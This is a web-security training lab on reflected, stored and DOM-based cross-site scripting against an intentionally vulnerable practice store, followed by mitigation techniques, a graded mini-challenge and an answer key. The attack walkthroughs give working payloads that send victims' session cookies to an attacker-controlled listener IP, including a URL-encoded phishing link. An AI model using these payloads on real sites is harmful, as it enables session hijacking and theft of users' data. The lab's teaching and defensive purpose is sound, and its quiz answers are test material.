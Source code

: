 # Web Application Penetration Testing: Cross-Site Scripting (XSS)

This lab introduces users to Cross-Site Scripting (XSS) attacks and discusses techniques for mitigating this type of vulnerability in web sites. 

In this alert, <a href="https://www.cisa.gov/resources-tools/resources/secure-design-alert-eliminating-cross-site-scripting-vulnerabilities" target="_blank">Malicious Cyber Actors Use Cross-Site Scripting Vulnerability to Compromise Systems</a>, CISA provides the following definition for cross-site scripting vulnerabilities:

Cross-site scripting vulnerabilities arise when manufacturers fail to properly validate, sanitize, or escape inputs. These failures allow threat actors to inject malicious scripts into web applications, exploiting them to manipulate, steal, or misuse data across different contexts. Although some developers employ input sanitization techniques to prevent XSS vulnerabilities, this approach is not infallible and should be reinforced with additional security measures.`[1]`

Please see the recently released (January 23, 2025) CISA alert referencing a five-year-old vulnerability in jQuery that was added to their <a href="https://www.cisa.gov/known-exploited-vulnerabilities-catalog" target="_blank">Known Exploited Vulnerabilities Catalog</a> based on evidence of active exploitation.

- <a href="https://www.cisa.gov/news-events/alerts/2025/01/23/cisa-adds-one-known-exploited-vulnerability-catalog" target="_blank">CISA Adds One Known Exploited Vulnerability to Catalog</a>


| &#9201; LAB TIME                           |
| ------------------------------------------ |
| This lab is expected to take sixty (60) minutes. |

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

| &#9888; CAUTION                                              |
| ------------------------------------------------------------ |
| You must complete *all* phases of the lab to receive your completion certificate. |

## Learning Objectives

 - Understand cross-site scripting attacks and how they work.
 - Perform a reflected cross-site scripting attack.
 - Perform a stored cross-site scripting attack.
 - Perform a DOM-based cross-site scripting attack.
 - Review best practices to mitigate cross-site scripting attacks.

## Learner Expectations

 - Learners should be comfortable with Linux, web browsers, HTML, JavaScript and command-line operations.

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by managing the attack surface of internet accessible assets.

**NICE Work Roles**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Exploitation Analysis, Defensive Cybersecurity, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1359</a>: Perform penetration testing
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1563</a>: Implement system security measures
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1119</a>: Recommend vulnerability remediation strategies

<!-- cut -->

## Scenario

In this lab, you investigate common cross-site scripting attacks in web sites. You start the three most common cross-site scripting attack types: Reflected XSS, Stored XSS and DOM-based XSS. You walk through examples of how each of these attacks can be used against a web site followed with a discussion of best practices to defend against each. The lab concludes with a mini-challenge where you perform a cross-site scripting attack to take over a user's session and gain access to their credit card data.

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Kali | Kali Linux | user | tartans |

### What is Cross-Site Scripting?

According to OWASP, <a href="https://owasp.org/www-community/attacks/xss/" target="_blank">Cross-Site Scripting can be defined as</a>:

Cross-Site Scripting (XSS) attacks are a type of injection in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.`[2]`

## Phase 1: Cross-site Scripting Attacks

<details>
<summary>
<h3>What is a Reflected Cross-Site Scripting Attack?</h3>
</summary>
<p>

Reflected cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding. For example, a web site's search feature accepts user input that is then displayed as part of the search results. Let's break this down into a few simple steps.

1. A malicious actor enters JavaScript into the search textbox and submits their search request.
2. The script is sent to the web server and processed as regular text.
3. The script is returned to the client as part of the response.
4. The inclusion of this unvalidated and unencoded script could lead to execution in the client web browser.

</p>
</details>

<details>
<summary>
<h3>Reflected Cross-Site Scripting Attack Walk-through</h3>
</summary>
<p>

Our goal in this part of the lab is to execute a reflected cross-site scripting attack. Based on the definition above, we need to find a place that will let us inject a script that will be processed on the server and then returned as part of the HTTP response. The first step is to locate a potential injection point. The market web site has a search feature that we will attempt to exploit.

1. (**Kali**) Open the `Kali` console and log in with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![s13-image1.png](./img/s13-image1.png)

3. (**Kali, Firefox**) Click the `PRODUCT SEARCH` link at the top of the page.

![s13-image2.png](./img/s13-image2.png)

4. (**Kali, Firefox**) Enter the following JavaScript into the text box and click the `Search` button.

```
<script>alert("xss");</script>
```

![s13-image3.png](./img/s13-image3.png)

5. (**Kali, Firefox**) This should produce an alert dialog box with the string `xss` displayed as the message. 

![s13-image4.png](./img/s13-image4.png)

The steps below indicate we have discovered a reflected cross-site scripting vulnerability: 
   - We entered JavaScript into the web site's `Search` field.
   - Clicking the `Search` button caused the web browser to make an HTTP POST to the web server.
   - The web server processed our request, then included the JavaScript in the results, which were executed when rendered by the browser.

What are some of the potential impacts of a reflected cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user, they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site the targeted user is allowed to perform. For example, if an attacker knows you shop on the market web site, they could set up their own server as a listener and then create a phishing email with an encoded hyperlink that contains JavaScript. When executed, the script could add the target user's session cookie to a querystring that calls back to the malicious server, providing the attacker with a usable session token that could be used to log in and impersonate the target user. 

One of the difficult parts about using a reflected attack is timing. In the scenario above, if the targeted user is not currently logged in, they may not have an active session cookie that can be stolen. In the next section we discuss stored cross-site scripting attacks, which can make life easier for malicious actors because their dangerous scripts can be persisted and executed repeatedly by multiple users.


**Knowledge Check Question 1**: *Which three-letter acronym is also used to describe cross-site scripting?*

**Knowledge Check Question 2**: *What kind of cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding?*

</p>
</details>

<details>
<summary>
<h3>What is a Stored Cross-Site Scripting Attack?</h3>
</summary>
<p>

Stored cross-site scripting, sometimes referred to as persistent cross-site scripting, occurs when a web site takes untrusted input and later displays that data without any form of validation or encoding. This allows a malicious actor to inject and store scripts that will later be accessed and executed when returned to a client browser.

An example of this would be when a web site accepts a product review, comment or blog post and then displays that text on the web site without using some form of validation or encoding. Let's provide an example with a few simple steps.

1. A malicious actor posts a product review that contains JavaScript similar to the following:

```
<script type="text/javascript">document.location="http://10.5.5.105/?c="+document.cookie;</script>
```

2. The product review for this item, or in our case the malicious script, is stored in the web site's product review database table.

3. Each time someone visits the web page that contains this text, the script will be executed and send a cookie to a server controlled by a malicious actor.

In the next section, you perform a stored cross-site scripting attack.

</p>
</details>

<details>
<summary>
<h3>Stored Cross-Site Scripting attack walk-through</h3>
</summary>
<p>

1. (**Kali**) Open the `Kali` console and log in with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![s13-image1.png](./img/s13-image1.png)

3. (**Kali, Firefox**) Click the `LOGIN` link on the top navigation menu. On the Login page, enter the following credentials, then click the `Login` button.

```
Email: bcampbell@skills.hub
Password: operating
```

![s13-image5-941250190.png](./img/s13-image5.png)

4. (**Kali, Firefox**) After logging in, you are redirected back to the market home page. Click the `View` link on one of the products. This takes you to a product detail page for that item where you can post a product review.

![s13-image6.png](./img/s13-image6.png)

![s13-image7.png](./img/s13-image7.png)

5. (**Kali, Firefox**) Click the `Add a Review` button.

![s13-image8.png](./img/s13-image8.png)

6. (**Kali, Firefox**) Select any number of stars from the `Rating` field.

![s13-image9.png](./img/s13-image9.png)

7. (**Kali, Terminal**) Before saving our review, we want to set up a simple web server as a listener to see if our malicious script can capture any session cookies. Open a terminal window and enter the following command to start a Python web server listening on port 80.

```
python3 -m http.server 80
```

![s13-image10.png](./img/s13-image10.png)

8. (**Kali, Terminal**) Open a new terminal window on your Kali VM and get your IP address by typing `ip a` then hitting `enter`. Your IP address is the address attached to the `eth0` network interface. In this case, the IP address is `10.5.5.113`, but your IP address may be different. Take note of this IP address because we need it in the next step.

![s13-image11.png](./img/s13-image11.png)

9. (**Kali, Firefox**) Go back to the product review page on the market web site. The `Review` text box looks like a great place to inject and store malicious JavaScript. Enter the following text in the `Review` field, making sure to replace the IP address of `10.5.5.113` with your IP address obtained in the previous step.

When this script executes the `document.cookie` command will retrieve the cookies from the web browser and those key/value pairs will be appended to the querystring in the URL. The `document.location` command will then redirect the user's web browser to our malicious web server on `10.5.5.113` with the cookie values included in the HTTP GET request. In the next step, you will see the results of the script execution.

```
<script type="text/javascript">document.location="http://10.5.5.113/?c="+document.cookie;</script>
```

![s13-image12.png](./img/s13-image12.png)

10. (**Kali, Firefox**) Click the `Submit Review` button to save your review. You are immediately redirected to `http://10.5.5.113/?c=PHPSESSID=0878tio7oh2jjdqmb1j8ckviaj`. Your IP address and PHPSESSID cookie value could be different, but the result should be the same. 

![s13-image13.png](./img/s13-image13.png)

11. (**Kali, Terminal**) Return to the terminal window running the Python web server. Here you can view the GET request made to the malicious actor's web server by the compromised client web browser.

![s13-image18.png](./img/s13-image18.png)

What just happened here? When you saved your product review, the script you entered was saved to the product review database. When the web site redirected you back to the product's detail page your script was executed.

The following steps below indicate that we have discovered a stored cross-site scripting vulnerability: 
   - We entered JavaScript into the product `Review` text box.
   - Clicking the `Submit Review` button saved your script as a product review.
   - When the web server redirected you back to the product details page all the product reviews were loaded. Due to the lack of encoding of the user-supplied text, the script in our review was executed.
   - The executed script grabbed the PHPSESSID cookie value and appended it to a querystring before redirecting the browser to our malicious web site. 
   - One of the most important things to note is that the script has been stored and will execute for every user that loads this page, potentially providing us with a large number of session IDs that we can use to authenticate as different users of the market web site.

What are some of the potential impacts of a stored cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site that the targeted user is allowed to perform. 

There are a few differences between stored and reflected cross-site scripting attacks:
 - In a stored XSS attack, the script is stored in the application in locations such as databases, files, logs, etc. There is no need for the attacker to use an external source to introduce the script.
  - In a stored XSS attack, the script can be executed repeatedly by multiple victims. For example, if a script is added to a product review, the script could be executed by every user that views that review.

**Knowledge Check Question 3**: *What ten-letter word is another name for stored cross-site scripting?*

In the next section, we discuss DOM-based cross-site scripting attacks.

</p>
</details>

<details>
<summary>
<h3>What is a DOM-based Cross-Site Scripting Attack?</h3>
</summary>
<p>

<a href="https://www.invicti.com/learn/dom-based-cross-site-scripting-dom-xss/" target="_blank">Invicti offers one of the better explanations of DOM-based cross-site scripting</a> on their web site: 

The DOM (Document Object Model) is an internal data structure that stores all the objects and properties of a web page. For example, every tag used in HTML code represents a DOM object. Additionally, the DOM of a web page contains information about such properties as the page URL and meta information. Developers may refer to these objects and properties using JavaScript and change them dynamically.

The Document Object Model is what makes dynamic, single-page applications possible. However, it is also what makes DOM-based cross-site scripting possible.

Unlike all other types of cross-site scripting, DOM-based XSS is purely a client-side vulnerability. This means that during a DOM-based XSS attack, the payload never reaches the server. The entire attack happens in the web browser.

DOM-based XSS is similar to reflected XSS because no information is stored during the attack. A DOM-based XSS attack is also conducted by tricking a victim into clicking a malicious URL. `[3]`

What is the difference between DOM-based cross-site scripting and reflected cross-site scripting?

The most important difference between these XSS techniques is where the attack is injected. Reflected cross-site scripting attack payloads are injected on the server side while DOM-based payloads are injected on the client/browser side.

</p>
</details>

<details>
<summary>
<h3>DOM-based Cross-Site Scripting Attack Walk-through</h3>
</summary>
<p>

What are some of the potential impacts of a DOM-based cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user, they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site the targeted user is allowed to perform. Because reflected and stored cross-site scripting attacks both involve server side interaction, evidence of these kinds of attacks can be logged and potentially even mitigated using tools such as Web Application Firewalls (WAF). In a DOM-based attack, all the execution takes place on the client side, thus there are often fewer logs and artifacts left behind after this kind of attack.

1. (**Kali**) Open the `Kali` console and login with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub/promos.php`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![s13-image14.png](./img/s13-image14.png)

3. (**Kali, Firefox**) You should be looking at a page similar to the screen capture below. Here we can see a list of current promotions, including a link at the bottom of the page that says `Apply Coupons`. When the `Apply Coupons` link is clicked, you are greeted with a dialog box that says `Coupons applied to your account!`. 

![s13-image15.png](./img/s13-image15.png)

4. (**Kali, Firefox**) Let's see if we can exploit this. Right click on the `Apply Coupons` link and select `Inspect` from the menu. The HTML code associated with this button looks like this:

```
<a id="couponlink" href="#" onclick="alert('Coupons applied to your account!');">Apply Coupons</a>
```

![s13-image16.png](./img/s13-image16.png)

5. (**Kali, Firefox**) Below the link we can see a `<script>` tag. Let's expand this.

```
const params = new URLSearchParams(window.location.search);
const action = params.get("apply");
if (action) {
      document.getElementById("couponlink").setAttribute("onclick", action);
   }
   else {
      document.getElementById("couponlink").setAttribute("onclick", "alert('Coupons applied to your account!');");
   }
```

![s13-image17.png](./img/s13-image17.png)

6. (**Kali, Firefox**) Based on the code, we can see that if there is a query string value named `apply` we can modify the behavior of the `onclick` event of this link.

7. (**Kali**) Before we go any further, let's start our malicious web server that will be used to collect session IDs from those that click on our phishing email. We will provide additional details about that in later steps.

8. (**Kali**) Open a terminal window and get the IP address of your Kali machine by typing `ip a`. Look at the IP address associated with `eth0`. In our case it is `10.5.5.113`, but your IP address may be different.

![s13-image11.png](./img/s13-image11.png)

9. (**Kali**) Enter the following command in your terminal window to start a local web server listening on port 9000 on your Kali machine.

```
python3 -m http.server 9000
```

![s13-image19.png](./img/s13-image19.png)

10. (**Kali, Firefox**) Imagine the scenario where a malicious actor creates a link in a phishing email with the hopes of capturing an actively logged-in user's session ID so they can impersonate them on the market web site. We can begin by creating a link like the one below. Make sure to replace the IP address of `10.5.5.113` with the IP address of your Kali VM from Step 8.

```
http://market.skills.hub/promos.php?apply=window.location.href=%27http://10.5.5.113:9000?session=%27%2Bdocument.cookie;
```

When a user clicks the link above that would be included in the email, they are taken to the `promos.php` page. The JavaScript on the page executes and modifies the link based on the code included in the `apply` querystring value. Once the user clicks the `Apply Coupons` page, the `onclick` event fires and the user's browser is redirected to a malicious web server (`http://10.5.5.113:9000`) with the current session cookie value included in the `session` querystring value.

![s13-image20.png](./img/s13-image20.png)

It would probably be a good idea for the malicious actor to take one additional step to obfuscate the link by URL encoding it. We can do that with tools such as CyberChef. This step is not necessary for this lab, thus the details of how to do this will not be covered here.

```
http%3A%2F%2Fmarket%2Eskills%2Ehub%2Fpromos%2Ephp%3Fapply%3Dwindow%2Elocation%2Ehref%3D%2527http%3A%2F%2F10%2E5%2E5%2E113%3A9000%3Fsession%3D%2527%252Bdocument%2Ecookie%3B
```

11. (**Kali, Firefox**) To simulate being the victim of this phishing scam, open a new browser window and paste the link you created in Step 10 into the URL bar then hit `enter`. 

![s13-image20.png](./img/s13-image20.png)

12. (**Kali, Firefox**) You are taken to the `promos.php` page of the market web site. Click the `Apply Coupons` link.

13. (**Kali, Firefox**) Notice that you have been redirected to the malicious web server running on your Kali machine. Note that the URL contains a querystring value named `session` which contains the `PHPSESSID` cookie value. 

```
http://10.5.5.113:9000/?session=PHPSESSID=9iv85t3j2uri6p3j4jn5spnb7v
```

![s13-image21.png](./img/s13-image21.png)

14. (**Kali, Terminal**) Return to the terminal window running the Python web server on port 9000. Here you can view the GET request made to the malicious actor's web server by the compromised client web browser.

![s13-image22.png](./img/s13-image22.png)

Had this user been logged in to the market web site, you could place that `PHPSESSID` value in your own cookie for the market web site and impersonate them without further authentication.

**Knowledge Check Question 4**: *In the context of a web site, what does DOM stand for?*

In the next section, we discuss cross-site scripting mitigation techniques.

</p>
</details>

<br />

## Phase 2: Mitigation Techniques

<details>
<summary>
<h3>Mitigation Techniques</h3>
</summary>
<p>

Phase 1 of this lab covered several ways to perform cross-site scripting attacks against a web site. Phase 2 covers seven ways to help prevent this class of attacks. They are:

1. Use modern frameworks
2. Encode output
3. Validate input
4. Sanitize HTML / Whitelisting
5. Content Security Policy (CSP)
6. Web application firewalls
7. Cookie attributes

#### Use Modern Frameworks

Modern web frameworks such as React, Angular, Vue.js, ASP.NET and others provide many built-in features to help mitigate cross-site scripting attacks. They provide safe default methods to encode and escape potentially dangerous output. Keep in mind that developers can override and bypass these options, so the use of a framework does not guarantee the prevention of cross-site scripting vulnerabilities. It is not uncommon for bugs to be found that allow malicious actors to bypass the default protections provided by frameworks. It is important to keep third-party software and libraries updated.

#### Encode Output

In order to help prevent cross-site scripting attacks, all untrusted and user-supplied data should be treated as potentially malicious. Before displaying this data on a web page, you should consider escaping and encoding the output. 

- As mentioned above, using modern frameworks can provide a lot of help as they are widely used and well tested. Trying to build your own framework or library to handle cross-site scripting is not recommended.

- HTML encoding can be used to replace special characters like `<` and `>`. An example would be encoding this: `<script>alert('XSS');</script>` to: `&lt;script&gt;alert('XSS');&lt;/script&gt;`

The most commonly encoded characters and their conversions include:

| Character | HTML Entity      |
|-----------|------------------|
| `<`       | `&lt;`           |
| `>`       | `&gt;`           |
| `&`       | `&amp;`          |
| `"`       | `&quot;`         |
| `'`       | `&#x27;`         |

#### Validate Input

Input validation is the process of verifying that all data entered into a system by external sources is in a safe and expected format. <a href="https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html" target="_blank">A more detailed explantion</a> offered by the OWASP foundation is provided below:

Goals of Input Validation  
Input validation is performed to ensure only properly formed data is entering the workflow in an information system, preventing malformed data from persisting in the database and triggering malfunction of various downstream components. Input validation should happen as early as possible in the data flow, preferably as soon as the data is received from the external party.

Data from all potentially untrusted sources should be subject to input validation, including not only Internet-facing web clients but also backend feeds over extranets, from suppliers, partners, vendors or regulators, each of which may be compromised on their own and start sending malformed data.

Input Validation should not be used as the primary method of preventing XSS, SQL Injection and other attacks which are covered in respective cheat sheets but can significantly contribute to reducing their impact if implemented properly.

Input Validation Strategies  
Input validation should be applied at both syntactic and semantic levels:

Syntactic validation should enforce correct syntax of structured fields (e.g. SSN, date, currency symbol).
Semantic validation should enforce correctness of their values in the specific business context (e.g. start date is before end date, price is within expected range).
It is always recommended to prevent attacks as early as possible in the processing of the user's (attacker's) request. Input validation can be used to detect unauthorized input before it is processed by the application. `[7]`

#### Sanitize HTML

This technique is very similar to and works in conjunction with the steps listed above in the `Encoding Output` section. To sanitize HTML, you need to remove or modify HTML elements, attributes and scripts that are potentially dangerous. 

- Use libraries such as `DOMPurify` to sanitize HTML. This library is written in JavaScript and works with most modern web browsers. You can find additional information <a href="https://github.com/cure53/DOMPurify" target="_blank">here</a>.

- Whitelisting is a technique that involves allowing only specific HTML elements and attributes considered safe to be displayed. Any output that is not specifically allowed on the whitelist should either be safely encoded or removed.

#### Content Security Policy

A Content Security Policy (CSP) is a feature that exists in most modern web browsers to help prevent cross-site scripting by limiting the resources a browser loads. This feature works by configuring the web server to add a Content-Security-Policy HTTP response header that contains one or more directives such as: `default-src`, `img-src`, `style-src`, `object-src`, `base-uri`, `strict-dynamic`, `frame-ancestors`

For detailed discussions of Content Security Policy information, read the following documents: <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP" target="_blank">Content Security Policy</a> and <a href="https://portswigger.net/web-security/cross-site-scripting/content-security-policy" target="_blank">PortSwigger: Content security Policy</a>.

#### Web Application Firewalls

Web Application Firewalls (WAF) act as a reverse-proxy server sitting in front of a web site and are used to intercept and monitor HTTP traffic. By monitoring HTTP traffic headed inbound to the server from the internet, WAFs can be configured to filter strings suspected of containing XSS, SQL injection and other similar types of attacks. However, due to their location, they can't defend against clients-side cross-site scripting attacks such as DOM-based XSS. 

#### Cookie Attributes

Cookie attributes provide additional information about a cookie that instructs web browsers how to handle a cookie. They provide details that determine everything from the lifespan to the security of the cookie. 

The `HttpOnly` attribute helps protect cookies from cross-site scripting (XSS) attacks by instructing the browser that the cookie should not be accessible via client-side scripts. In the event that a script executes on the client-side, it cannot access a protected cookie and may help reduce leaking sensitive data.

The `Secure` attribute indicates that cookies should only be sent using HTTPS. While most web sites have begun using HTTPS by default, cookies should still have the Secure directive explicitly enabled.

The `Expires` and `Max-Age` cookie attributes should be configured so cookies expire as soon as they are no longer needed. Login cookies and session identifiers, in particular, should be set to expire as quickly as possible.

The `SameSite` cookie attribute forbids the browser from sending cookies to a third-party web site via cross-origin requests. Where possible, it is recommended that you set  `SameSite=Strict`. This causes the web browser to only send cookies for first party context requests. This means the requests must originate from the site that set the cookie, based on the URL.

**Knowledge Check Question 5**: *What is the HTML encoded equivalent of the & character?*

## Additional Resources

Protecting against cross-site scripting is hard. As is true in most security contexts, taking a multi-layered approach will provide the best results, but may not guarantee that all vulnerabilities have been addressed. The mitigation techniques discussed here are not a complete list and only provide a high-level overview of each of the topics. We encourage you to follow the links and resources provided to learn more about each subject.

<a href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html" target="_blank">Cross Site Scripting Prevention Cheat Sheet</a>

<a href="https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html" target="_blank">DOM based XSS Prevention Cheat Sheet</a>

</p>
</details>

## Mini-Challenge

<details>
<summary>
<h3>Click Here to Access the Mini-Challenge</h3>
</summary>
<p>

*A solution guide link is available following the grading section, should you need it.*

### Mini-Challenge Objectives
- Exploit the `SITE FEEDBACK` feature of the market web site to execute a stored cross-site scripting vulnerability.
- Use stored cross-site scripting to send a logged-in user's `PHPSESSID` cookie value to a server you control, such as a web server or netcat listener. 
- Use this cookie to impersonate another market user and obtain the last 4 digits of their credit card number from their profile page.
  - Cookies are available in Firefox under the `Storage` tab of the `Web Developer Tools`. 

- Once you have added and tested your malicious script, navigate to `https://skills.hub/lab/tasks` and click the `Submit` button to test your exploit. 

![s13-image23.png](./img/s13-image23.png)

- You can click the `Refresh` button that appears to check the status of the test.

![s13-image24.png](./img/s13-image24.png)

- After the following message appears under the `Status` column, return to the market web site and use your captured `PHPSESSID` cookie value to obtain the targeted user's credit card data.

```
Success -- The user browsed the feedback site with their session token.
```

![s13-image25.png](./img/s13-image25.png)

### Grading Check

**Grading Check Question 1**: *What are the last 4 digits of the impersonated market user's credit card?*

`Copy any token or flag strings to the corresponding question submission field to receive credit.`

*Please attempt the mini-challenge as best you can, but if you get stuck you can reference the solution guide using the link below.*

<details>
<summary>
<h3>Lab Wrap-up</h3>
</summary>
<p>

### Conclusion

This lab provided hands-on experience with common cross-site scripting (XSS) attacks and their defenses. You started with reflected cross-site scripting attacks, then continued with stored and DOM-based attacks. These exercises demonstrated how attackers can exploit various types of cross-site scripting vulnerabilities and how proper mitigation techniques can help reduce these vulnerabilities. 

During this lab, you:

 - Creating reflected, stored and DOM-based cross-site scripting attacks for understanding
 - Using and even combining these different scripting attacks to achieve various results
 - Mitigating techniques you can use to protect websites from those attack methods

Skills exercised:

- S0248: Skill in performing target system analysis
- S0440: Skill in identifying target vulnerabilities
- S0504: Skill in identifying vulnerabilities
- S0667: Skill in assessing security controls
- S0544: Skill in recognizing vulnerabilities

### Answer Key

**Knowledge Check Question 1**: *Which three-letter acronym is also used to describe cross-site scripting?*
 - *`XSS`*

**Knowledge Check Question 2**: *What kind of cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding?*
 - *`reflected`*

**Knowledge Check Question 3**: *What 10 letter word is another name for stored cross-site scripting?*
 - *`persistent`*

 **Knowledge Check Question 4**: *In the context of a web site, what does DOM stand for?*
  - *`document object model`*

**Knowledge Check Question 5**: *What is the HTML encoded equivalent of the & character?*
 - *`&amp;`*

### References

- [1] <a href="https://www.cisa.gov/resources-tools/resources/secure-design-alert-eliminating-cross-site-scripting-vulnerabilities" target="_blank">Malicious Cyber Actors Use Cross-Site Scripting Vulnerability to Compromise Systems</a>

- [2] <a href="https://owasp.org/www-community/attacks/xss/" target="_blank">OWASP Cross-Site Scripting</a>

- [3] <a href="https://www.invicti.com/learn/dom-based-cross-site-scripting-dom-xss/" target="_blank">DOM-based cross-site scripting</a>

- [4] <a href="https://portswigger.net/web-security/cross-site-scripting/reflected" target="_blank">Reflected XSS</a>

- [5] <a href="https://portswigger.net/web-security/cross-site-scripting/stored" target="_blank">Stored XSS</a>

- [6] <a href="https://portswigger.net/web-security/cross-site-scripting/dom-based" target="_blank">DOM-based XSS</a>

- [7] <a href="https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html" target="_blank">OWASP Input Validation Cheat Sheet</a>

- [8] <a href="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" target="_blank">XSS Filter Evasion Cheat Sheet</a>

- [9] <a href="https://gchq.github.io/CyberChef/" target="_blank">CyberChef</a>

- [10] <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>

- [11] <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>
